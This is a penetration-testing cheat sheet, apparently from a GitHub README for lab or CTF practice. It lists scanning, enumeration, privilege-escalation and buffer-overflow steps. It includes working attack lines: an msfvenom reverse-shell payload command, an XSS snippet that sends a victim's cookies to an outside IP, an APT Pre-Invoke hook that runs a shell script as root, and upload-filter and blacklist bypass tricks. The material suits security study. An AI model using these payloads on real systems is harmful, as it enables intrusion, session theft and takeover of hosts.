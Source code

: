 (Soon will be moved to my [gitbook](https://pentest-henryzhefeng.gitbook.io/hacktheplanet/))
# Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Port Scan
- `nmap -sC -sV -oA <name> <ip>`
- `nmap -p- -sV <ip> > all-tcp`
- `nmap -sU <ip> > comm-udp`
- `nmap --script vuln <ip>`
- `nc -zv xx.xx.xx.xx 1-100 2>&1 | grep -v "refused"`

# HTTP/HTTPS 80/443
- `gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html`
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# DNS
https://gist.github.com/feng-zhe/fc78b1f01b6ce6c26dd7a6ebc909953d

## SQLi
https://gist.github.com/feng-zhe/e75d0c2c918c9edf50b27eb4d489b15f

## PHP Wrapper
https://gist.github.com/feng-zhe/e6bc151aa96132b3cc4e03b5a858e80c

## PHP cmd and file upload script
https://gist.github.com/feng-zhe/68efdd66fd20fd4626fe82e3f92d6e2b

# SMB
https://gist.github.com/feng-zhe/3f7c802df4b47bc9d70eeb8bdbd190e8

# SNMP udp/161
- `snmpwalk -c public -v1 <target>`
- `snmp-check -w -t 30 <target>`

# Priv Esc
## Linux
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => `find / -perm -4000 2>/dev/null`
- find all files in /home => `find /home -type f`
- LinEnum.sh, linux-exploit-suggester.sh, linuxprivchecker.py
## Windows
- [ps scripts](https://gist.github.com/feng-zhe/b47e251d9cc5d9bdf6504de182b1b2e0)
- [manually enum](https://gist.github.com/feng-zhe/7913c7cc5b11f23cf99db058bb9edb00)
- [runas attack](https://gist.github.com/feng-zhe/0e6d4dfd75d248d6450658618458d579)
- [service replace](https://gist.github.com/feng-zhe/fc00f38428bb8974ed8ced67879ed374)
- If using MSF, try to migrate to a x64 process and run local\_exploit\_suggest.

# Manually Test User Pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# File 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) `impacket-smbserver share <shared path>`
  - (windows) `net use z: \\<kali's ip>\share`
  - (windows) `copy <file\ z:`

# gdb (with peda)
- `r < <(python exp.py)`
  - (or 'set args' if take parameters)
- `r < input.txt`
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'`
- `p system` => address of function system
- `info functions` => list all functions
- `vmmap` => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. `!mona modules`
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
        3. you can click the button "->|" (except the | are dots)
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

# Oracle DB exploit tool
- odat.py
  - `--sysdba` to get a 
  
# XSS
```
<script>
document.write('<img src="http://10.10.14.19/xxxx?cookie=' + document.cookie + '" />')
</script>
```

# bypass upload file filter
- jpg.php, php.jpg, php5, php6, php7
- use system filename length limits to truncate the .png part from .php.png

# escaping black list
- /usr/bin/find replaced by /usr/bin/fin? or /usr/bin/\f\i\n\d

# APT pre-invoke attack
If apt update is run, the scripts in /etc/apt/apt.conf.d/ also gets run.
So, if there is a job running apt update, we can put a file with following content under /etc/apt/apt.conf.d/:
`APT::Update::Pre-Invoke {"/bin/bash /tmp/myshell.sh"}`

# Powershell
https://gist.github.com/feng-zhe/5429965db99d9647ffc60bb571c6f46e

# Escape rbash
https://gist.github.com/feng-zhe/ffc2063f138a4321c3cb45c9fdab5e46

# Resources
- [omniscient methods](http://www.0daysecurity.com/penetration-testing/enumeration.html)
- [bypass file upload filter](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
